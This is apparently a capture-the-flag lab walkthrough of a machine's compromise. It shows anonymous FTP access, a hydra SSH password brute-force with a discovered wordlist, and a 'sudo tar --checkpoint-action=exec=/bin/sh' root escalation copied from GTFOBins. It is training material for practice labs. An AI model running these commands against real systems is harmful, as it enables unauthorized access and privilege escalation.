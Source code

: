 
we begin by running an nmap scan we have the following result.

![[/posts/res/BH_1.png]]
 we have the following ports open our target system:
 - 21 (ftp)
 - 22 (ssh)
 - 80 (http)
 now lets start our enumeration.


##Enumerating Port 21 (FTP)
from the scan port 21 runs ftp service which has  anonymous login enabled. anonymous login is a method that allows users to access an FTP server without providing any authentication credentials, thus enabling anonymous access. This feature is often used for public file repositories or servers hosting freely available resources. When accessing an FTP server anonymously, users typically input "anonymous" as the username and may use their email address or a generic password like "guest" or "anonymous" as the password. While this grants users the ability to download files from the server, their access privileges are usually limited, often restricting them to read-only permissions. Anonymous FTP login serves as a convenient means for users to retrieve publicly shared data without the need for individual accounts, promoting accessibility to information across the internet. 

now we can exploit this simply by using the following command:

```
ftp <TARGET_IP>
USERNAME: anonymous
PASSWORD: leave_blank
```
![[/posts/res/BH_2.png]]
we have just discovered two file via ftp now we download them to our local machine using the following command:

```
mget *
```

![[/posts/res/BH_3.png]]

when we cat out the content of the ***locks.txt*** file we can see a list of possible passwords
![[/posts/res/BH_4.png]]

the ***task.txt*** file simply gives us a message:
![[/posts/res/BH_5.png]]

since we have have a password  list my next assumption was the use this information from we have to perform a bruteforce attack on the ssh service .

##Enumerating SSH
to bruteforce ssh, we would be making use of hydra.

```
command used: hydra -l lin -P /path/to/file/locks.txt 10.10.252.46 ssh
```

now we have a password
![[/posts/res/BH_6.png]]
so we can try to login as ***lin*** using ssh

```
command used: ssh lin@<TARGET_IP>
```

and now to locate the user flag, simply list out the contents of Desktop Directory.

```
command used: ls -la
```

##Privilege escalation 
Let's execute `sudo -l` to observe the privileges granted to the user for running commands as another user or as root.

we are allowed to run the following command:
![[/posts/res/BH_8.png]]

we are allowed to run tar as root. now we head over Here [[https://gtfobins.github.io/gtfobins/tar/]] to get a prive-esc command 

from gtfo bin we can simply copy and execute the following command to gain root:

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
![[/posts/res/BH_9.png]]
and we are root.



